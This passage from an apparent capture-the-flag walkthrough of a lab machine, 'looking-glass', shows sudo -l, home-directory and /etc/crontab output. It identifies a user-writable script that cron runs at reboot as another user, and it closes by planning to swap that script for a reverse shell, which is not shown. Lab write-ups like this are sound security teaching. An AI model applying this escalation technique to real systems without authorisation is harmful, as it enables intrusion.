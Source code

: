 
Let's check our privileges and our home directory:

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot

jabberwock@looking-glass:~$ ls -la
total 44
drwxrwxrwx 5 jabberwock jabberwock 4096 Jul  3  2020 .
drwxr-xr-x 8 root       root       4096 Jul  3  2020 ..
lrwxrwxrwx 1 root       root          9 Jul  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jabberwock jabberwock  220 Jun 30  2020 .bash_logout
-rw-r--r-- 1 jabberwock jabberwock 3771 Jun 30  2020 .bashrc
drwx------ 2 jabberwock jabberwock 4096 Jun 30  2020 .cache
drwx------ 3 jabberwock jabberwock 4096 Jun 30  2020 .gnupg
drwxrwxr-x 3 jabberwock jabberwock 4096 Jun 30  2020 .local
-rw-r--r-- 1 jabberwock jabberwock  807 Jun 30  2020 .profile
-rw-rw-r-- 1 jabberwock jabberwock  935 Jun 30  2020 poem.txt
-rwxrwxr-x 1 jabberwock jabberwock   38 Jul  3  2020 twasBrillig.sh
-rw-r--r-- 1 jabberwock jabberwock   38 Jul  3  2020 user.txt
```

We got the first flag on here, also there is a poem and a script too, we can reboot the machine using sudo, let's check `/etc/crontab` to check what happens when the box boots up:

```
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

On reboot, the script on our home directory runs, since we can modify it, we can exploiting by making a backup of the original script and replacing it with a reverse shell:
